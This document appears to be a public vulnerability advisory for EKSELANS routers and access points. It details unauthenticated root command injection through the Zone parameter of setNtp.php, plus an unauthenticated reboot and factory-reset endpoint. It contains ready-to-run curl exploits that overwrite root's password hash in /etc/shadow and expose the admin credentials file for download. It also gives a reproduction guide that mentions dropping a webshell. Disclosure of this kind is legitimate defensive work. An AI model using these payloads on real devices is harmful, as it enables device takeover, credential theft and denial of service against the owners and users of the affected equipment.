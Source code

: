 
# 🔥 Unauthenticated RCE and Full Device Compromise on EKSELANS by ITS Devices

## Summary

Multiple network devices manufactured by **EKSELANS BY ITS** (https://www.ek.plus/) are affected by a set of critical vulnerabilities that allow **unauthenticated attackers** to:

- Gain **root remote code execution (RCE)**,
- **Extract sensitive information** including admin credentials,
- **Change system configuration**, including the root password,
- **Trigger device reboot** and **factory reset** via unauthenticated endpoints,
- Ultimately perform **full device takeover** and **persistent denial-of-service (DoS)**.

These issues stem from improper input validation and unsafe use of shell commands in PHP CGI scripts exposed via the web interface.

---

## Affected Devices

The following EKSELANS BY ITS devices were tested and found vulnerable:

- TR750  
- TR1200  
- TR1200OLP  
- TR1300  
- TR2200  
- TR3000W6  
- TR3000W6OLP  
- AP1200 W2  
- AP 300  
- AP300 LP  
- AP750 NG  

**⚠️ Note:** Other devices in the EKSELANS product line may also be vulnerable, but have not yet been tested.

---

## Vulnerability 1 – Remote Code Execution (RCE) as Root via `setNtp.php`

### Description

The script at:

```
http://<device-ip>/cgi-bin/setNtp.php
```

is intended to update the system's timezone setting via the `Zone` POST parameter. However, it directly injects this input into a shell command using `shell_exec()` **without sanitization**, allowing arbitrary command execution as **root**.

### Risk Level: **Critical**

This leads to:
- Full root-level remote code execution (RCE)
- Unauthorized modification of system files (e.g. `/etc/shadow`)
- Persistence (e.g. SSH backdoor)
- Exfiltration of configuration and credentials
- Bricking of the device

---

### Exploit Proofs-of-Concept (PoC)

#### 🔓 PoC 1 – Change root password to `toor` for future SSH access:

```bash
curl --location 'http://<device-ip>/cgi-bin/setNtp.php' \
--form 'Zone="UTC'''; sed -i '''s/^root:.*/root:$1$Awiloz1g$Je46CvkpbqUExnTav0W580:20193:0:99999:7:::/g''' /etc/shadow; echo '''"'
```

This injects a new password hash into `/etc/shadow` for the `root` user.

> 🛠️ *The hash corresponds to the password: `toor`*

---

#### 📁 PoC 2 – Exfiltrate web admin credentials:

```bash
curl --location 'http://<device-ip>/cgi-bin/setNtp.php' \
--form 'Zone="UTC'''; cp /etc/config/systemconf/config/account.conf /www/cgi-bin/pwned3.php; echo '''"'
```

You can now download the credentials at:

```
http://<device-ip>/cgi-bin/pwned3.php
```

---

### Vulnerable Code (Excerpt)

```php
$cmd = "sed -i '3ioption timezone " . $zone . "'" . " /etc/config/system";
shell_exec($cmd);
```

The `Zone` parameter is directly concatenated into a shell command, enabling arbitrary code execution.

---

## Vulnerability 2 – Unauthenticated Reboot via `devmanage_resetDefault.php`

### Description

A simple unauthenticated request to:

```
http://<device-ip>/cgi-bin/devmanage_resetDefault.php
```

**immediately reboots the device**, without requiring login or confirmation.

This could allow attackers to:
- Cause **persistent DoS**
- Disrupt connectivity or network availability
- Exploit race conditions with other vulnerabilities

---

## Vulnerability 3 – Unauthenticated Factory Reset

### Description

The same endpoint:

```
http://<device-ip>/cgi-bin/devmanage_resetDefault.php
```

in some firmware versions or configurations **triggers a full factory reset**, erasing custom settings, access credentials, and other user data.

This may result in:
- **Erasure of forensic evidence**
- **Loss of device access for legitimate users**
- Further **chaining of exploits** to set malicious defaults or gain persistence

---

## Step-by-Step Reproduction Guide

1. Identify a vulnerable EKSELANS device on the network.
2. Use `curl` or any HTTP client to POST to `/cgi-bin/setNtp.php` with a malicious `Zone` value.
3. Optionally extract files or drop a webshell using the same method.
4. For reboot/factory reset, issue a GET request to `/cgi-bin/devmanage_resetDefault.php`.

---

## Recommendations

- Immediately **remove public access** to affected devices.
- Apply **input sanitization** to all CGI scripts.
- Avoid using `shell_exec()` with user input.
- Restrict access to configuration endpoints via authentication.
- Apply firmware updates (if available) or contact vendor for mitigation guidance.

---

## Disclosure Timeline

- 15/04/2025  – Vendor notification in progress.

- 28/04/2025 – Public disclosure.

---

## Credits

Discovered and responsibly disclosed by **miitro**

---

## Disclaimer

This information is provided for educational and defensive security purposes. The author is not responsible for any misuse of this information.

